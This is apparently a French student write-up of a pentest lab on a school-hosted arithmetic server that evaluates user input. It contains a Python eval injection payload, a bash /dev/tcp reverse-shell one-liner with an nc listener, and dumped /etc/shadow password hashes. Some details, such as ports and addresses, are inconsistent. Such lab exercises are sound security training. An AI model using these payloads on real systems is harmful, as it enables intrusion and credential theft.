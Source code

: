 # TP5 : Exploit, pwn, fix

## 1. Reconnaissance

🌞 **Déterminer**

- 10.33.70.40

- PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

- 

> Disons que si le code est compilé, t'auras pas la possibilité de le lire. Je vous laisse le code pour l'aspect pédagogique de l'exercice. Il existe au moins deux façons très directes qui permettraient de trouver ces infos. Trouvez-en une au moins.

➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

- trouvez une ou plusieurs machines qui héberge une app sur ce port
-
 ```
 $ sudo nmap -n 110.33.64.0/20 -p13337 --open : 
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:32 CET
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.33.66.165
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.037s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0066s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (843 hosts up) scanned in 295.53 seconds
```



🦈 **tp5_nmap.pcapng**

 [lien capture wireshark](/tp5/img/tp5_nmap.pcapng)

🌞 **Connectez-vous au serveur**
``` ~/Téléchargements  sudo python client.py
Veuillez saisir une opération arithmétique : 2+2

2023-11-30 11:18:09 INFO Connexion réussie à 10.33.70.40:13337
2023-11-30 11:18:15 INFO Message envoyé au serveur 10.33.70.40 : 2+2
2023-11-30 11:18:16 INFO Réponse reçue du serveur 10.33.70.40 : b'4'
2023-11-30 11:25:41 INFO Connexion réussie à 10.33.70.40:13337
2023-11-30 11:25:45 INFO Message envoyé au serveur 10.33.70.40 : 2+2
2023-11-30 11:25:45 INFO Réponse reçue du serveur 10.33.70.40 : b'4'
```

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

Ca doit lever un giga red flag dans votre esprit de hacker ça. Tu saisis ce que tu veux, et le serveur le lit et l'interprète.

🌞 **Injecter du code serveur**
```
sudo python client.py : 
__import__('os').system('ping -c 1 10.33.76.181') 

2023-12-01 11:16:46 INFO Message envoyé au serveur 10.33.70.40 : __import__('os').system('ping -c 1 10.33.76.181') 
2023-12-01 11:16:46 INFO Réponse reçue du serveur 10.33.70.40 : b'0'
 /v/l/bs_client  
``` 

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**
```
__import__('os').system('bash -i >& /dev/tcp/10.33.76.181/31296 0>&1')
```
```
└─$ nc -lvnp 3196
listening on [any] 3196 ...
connect to [10.33.70.40] from (UNKNOWN) [10.33.76.181] 31296
[root@local]#
```


🌞 **Pwn**
```
cat /etc/shadow
root:$6$Ac2Zned208vSDVSn$wKuS7q/pIYPo90yin8zl6Ocxd/liQd4aCTnzQEwsTQ2feosGAovhMqxFR.oladVr3G8UbXf2/u.OzeDfWM4aq.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19621::::::
dbus:!!:19621::::::
tss:!!:19621::::::
sssd:!!:19621::::::
sshd:!!:19621::::::
systemd-oom:!*:19621::::::
it4:$6$bV62paDqH/ZQSVFb$jiBgcgpkuzmmoZSvvLPwpd4gjwvnKQEWTE119tMNTnICtMcJ6dyPcDCVaTur8j5UQFuxAAM6eTimGdr97Nagh1::0:99999:7:::
```
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:993:993:systemd Userspace OOM Killer:/:/usr/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
```
```
ss -tupnl
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 2      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4))
```
![serveur] (/serveur.py)
## 4. Bonus : DOS

Le DOS dans l'esprit, souvent c'est :

- d'abord t'es un moldu et tu trouves ça incroyable
- tu deviens un tech, tu te rends compte que c'est pas forcément si compliqué, ptet tu essaies
- tu deviens meilleur et tu te dis que c'est super lame, c'est nul techniquement, ça mène à rien, exploit c'est mieux
- tu deviens conscient, et ptet que parfois, des situations t'amèneront à trouver finalement le principe pas si inutile (politique ? militantisme ?)

⭐ **BONUS : DOS l'application**

- faut que le service soit indispo, d'une façon ou d'une autre
- fais le crash, fais le sleep, fais le s'arrêter, peu importe

## II. Remédiation

🌞 **Proposer une remédiation dév**

- le code serveur ne doit pas exécuter n'importe quoi
- il faut préserver la fonctionnalité de l'outil

🌞 **Proposer une remédiation système**

- l'environnement dans lequel tourne le service est foireux (le user utilisé ?)
- la machine devrait bloquer les connexions sortantes (pas de reverse shell possible)
